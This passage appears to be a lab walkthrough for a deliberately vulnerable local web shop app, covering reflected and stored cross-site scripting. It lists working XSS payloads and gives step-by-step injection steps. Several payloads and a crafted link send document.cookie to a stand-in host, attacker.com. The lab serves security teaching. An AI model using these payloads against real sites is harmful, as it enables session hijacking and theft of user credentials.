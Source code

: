 **Working Payloads** (test these first):
```html
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<img src=x onerror="alert('XSS!')" />
<iframe src="javascript:alert('XSS')"></iframe>
```

**Advanced Payloads** (may be blocked by browser security):
```html
<script>alert('XSS!')</script>
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**Why `<script>` tags might not work**:
- Modern browsers have built-in XSS protection
- Inline script execution is often blocked for security
- Use event handlers (`onerror`, `onload`) instead

**Cookie Theft Payload** (use this for the lab):
```html
<img src=x onerror="fetch('http://attacker.com/steal?cookie='+document.cookie)">
```

### **2. Stored XSS via Product Descriptions**
**Location**: Add Product form description field
**Vulnerability**: Product descriptions are stored in database and displayed using innerHTML
**Attack Vector**: Malicious script tags in product descriptions

**How it works**:
1. Attacker adds a product with XSS payload in description
2. Payload is stored in database
3. Every time the product is displayed, XSS executes
4. Affects all users who view the product

**Test Payloads for Product Description**:
```html
<script>alert('Stored XSS!')</script>
<script>alert('Cookie: ' + document.cookie)</script>
<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
```

**Steps to Test**:
1. Go to the main page
2. Scroll down to "Add New Product" form
3. Fill in:
   - **Product Name**: Test Product
   - **Description**: `<script>alert('Stored XSS!')</script>`
   - **Price**: 99.99
4. Click "Add Product"
5. The XSS should execute immediately when the product appears

### **3. Reflected XSS Attack Scenario**

**The Attack**:
1. **Attacker creates malicious link**:
   ```
   http://localhost:3000/?search=<img src=x onerror="fetch('http://attacker.com/steal?cookie='+document.cookie)">
   ```
